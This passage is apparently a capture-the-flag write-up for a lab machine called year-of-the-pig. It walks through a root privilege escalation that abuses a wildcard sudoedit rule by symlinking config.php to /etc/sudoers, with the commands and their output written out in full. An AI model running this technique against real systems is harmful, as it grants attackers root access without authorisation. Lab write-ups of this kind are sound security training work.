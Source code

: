 # Privilege Escaltion to root
### Sudo -l
```console
curtis@year-of-the-pig:~$ sudo -l
[sudo] password for curtis: 
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php
```
Looking at the entry we can edit a specific type of file as root and also we have some degree of freedom to chose the filepath.

### Creating a directory first using user marco
```console
curtis@year-of-the-pig:~$ exit
exit
marco@year-of-the-pig:/var/www$ cd /var/www/html
marco@year-of-the-pig:/var/www/html$ mkdir test
marco@year-of-the-pig:/var/www/html$ chmod 777 test/
```
As marco can write on that directory, I have created a dir called test and made it world writeable.

### Creating another sub directory with user curtis
```console
curtis@year-of-the-pig:/var/www/html/test$ mkdir sub-dir
curtis@year-of-the-pig:/var/www/html/test$ cd sub-dir/
```
And inside test I have also made a subdirectory. Now to exploit this file editing privilege, I would create a file called config.php which will be a symbolic link to any of the important files like /etc/shadow or /root/.ssh/authorized_keys or /etc/sudoers. As we have a root privilege to edit those files, we can edit those files and can be root.

## Editing /etc/sudoers file
I have first try to edit authorized_keys of root, but it doesnot seem to exist and with /etc/shadow file, we have to change the password of the root user and the root user might not be able to login next time, so it is safer to edit /etc/sudoers file.
```bash
urtis@year-of-the-pig:/var/www/html/test$ cd sub-dir/
curtis@year-of-the-pig:/var/www/html/test/sub-dir$ ls
curtis@year-of-the-pig:/var/www/html/test/sub-dir$ ln -sf /etc/sudoers config.php
curtis@year-of-the-pig:/var/www/html/test/sub-dir$ ls -la
total 8
drwxrwxr-x 2 curtis curtis 4096 Nov 10 04:16 .
drwxrwxrwx 3 marco  marco  4096 Nov 10 04:12 ..
lrwxrwxrwx 1 curtis curtis   12 Nov 10 04:16 config.php -> /etc/sudoers
curtis@year-of-the-pig:/var/www/html/test/sub-dir$ sudoedit /var/www/html/test/sub-dir/config.php 
curtis@year-of-the-pig:/var/www/html/test/sub-dir$ sudoedit /var/www/html/test/sub-dir/config.php 

sudoedit: /var/www/html/test/sub-dir/config.php unchanged
```
And the file is successfully changed.
## Updated content of /etc/sudoers
```
## User privilege specification
##
root ALL=(ALL) ALL
curtis ALL=(ALL) ALL
```